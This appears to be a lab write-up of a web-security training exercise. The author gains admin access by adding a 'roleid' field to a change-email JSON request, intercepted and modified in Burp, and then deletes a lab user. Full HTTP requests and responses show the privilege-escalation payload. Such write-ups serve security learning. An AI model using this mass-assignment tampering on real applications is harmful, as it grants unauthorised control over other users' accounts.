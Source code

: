 *This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2. Solve the lab by accessing the admin panel and using it to delete the user carlos. You can log in to your own account using the following credentials: wiener:peter*

Logged into the account with the given credentials. 

Given an option to update the email, to which I changed. Burp Intercept was enabled when I clicked on *Update Email*. The following was the output. 

```Burp
POST /my-account/change-email HTTP/2
Host: 0ad700be041a808282f9151300860078.web-security-academy.net
Cookie: session=kNzEh4rmCxVtlk36Zg5iKA1L5nd2GDN5
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 31
Origin: https://0ad700be041a808282f9151300860078.web-security-academy.net
Referer: https://0ad700be041a808282f9151300860078.web-security-academy.net/my-account
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"email":"wienerman@gmail.com"}
```

After sending this to the Repeater and forwarding the request, I received the following response with my roleid: 
```Burp
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 123

{
  "username": "wiener",
  "email": "wienerman@gmail.com",
  "apikey": "AONgFEfrtiUCbiK9MCLNc78zES1JqyX4",
  "roleid": 1
}
```

I modified the `json` in the request to add and change the roleid to 2.
```Burp
POST /my-account/change-email HTTP/2
Host: 0ad700be041a808282f9151300860078.web-security-academy.net
Cookie: session=kNzEh4rmCxVtlk36Zg5iKA1L5nd2GDN5
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 45
Origin: https://0ad700be041a808282f9151300860078.web-security-academy.net
Referer: https://0ad700be041a808282f9151300860078.web-security-academy.net/my-account
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
"email":"wienerman@gmail.com",
"roleid": 2
}
```
Looking at the browser, I had now the admin panel to delete the user *carlos*.

Done!